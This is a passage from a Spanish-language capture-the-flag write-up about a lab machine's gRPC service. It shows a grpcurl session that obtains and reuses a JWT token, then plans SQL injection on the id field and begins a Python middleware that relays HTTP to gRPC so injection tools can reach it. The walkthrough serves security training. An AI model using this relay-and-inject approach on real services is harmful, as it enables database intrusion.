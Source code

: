 ```bash
Response contents:
{
  "message": "Your id is 301."
}

Response trailers received:
token: b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdCIsImV4cCI6MTY4NDg5NDM3N30.G4s9n9jOqSx91Nu8Kn2My0cC8SphTxefVYG6nazeWiI'
Sent 1 request and received 1 response
```

Ahora sí ya vemos el token. Ahora lo usaremos para ver que hay en `getInfo`. Ese `id` que nos da, podemos usarlo para hacer las pruebas.

```bash
$ ./grpcurl -plaintext -H "token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdCIsImV4cCI6MTY4NDg5NDY5MH0.5gYk1d4TAeoDL7TfQFBxMTmJ30-7bffbgoQBqF0-QEM" -d '{"id":"301"}' 10.10.11.214:50051 SimpleApp/getInfo
{
  "message": "Will update soon."
}
```

Vemos que hay un mensaje, hay que tener cuidado, en este caso el usuario se borrará luego de un rato y necesitaremos registrarnos y loguearnos de nuevo.

## Usuario bajos privilegios
### SQLi
Cuando tenemos un **id** es común que exista una base de datos detrás, por lo que podemos probar **inyecciones SQL** para este servicio. En el backend se usa **SQLite**, sin embargo, enumerarlo de esta forma es tedioso, podemos usar `sqlmap` si usamos la herramienta basada en web para enumerar el **gRPC**, pero es mejor siempre practicar las habilidades de programación para resolver estos casos.

### MiddleWare
Programé un script, basado el [middleware](https://marcvspt.github.io/posts/middleware-para-sqli/#script-middleware-1) que desarrollé anteriormente en mí página web. Este permite comunicarme a través de **HTTP** a mi `localhost` y redirigir el tráfico al servicio **gRPC** de la máquina remota. La principal diferencia es la inclusion del **token de autorización**.

```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import urlparse
from grpc import insecure_channel
import simpleapp_pb2
import simpleapp_pb2_grpc
import sys
import signal
import argparse

def signal_handler(sig, frame):
    print('[!] Exiting\n')
    sys.exit(1)

def send_grpc(payload):
    meta = [('token', f'%s' % args.token)]
    channel = insecure_channel(f'%s:%d' % (args.ip, args.rport))
    stub = simpleapp_pb2_grpc.SimpleAppStub(channel)
    request = simpleapp_pb2.getInfoRequest(id=payload)

    response = stub.getInfo(request,metadata=meta)

    if response:
        return response
```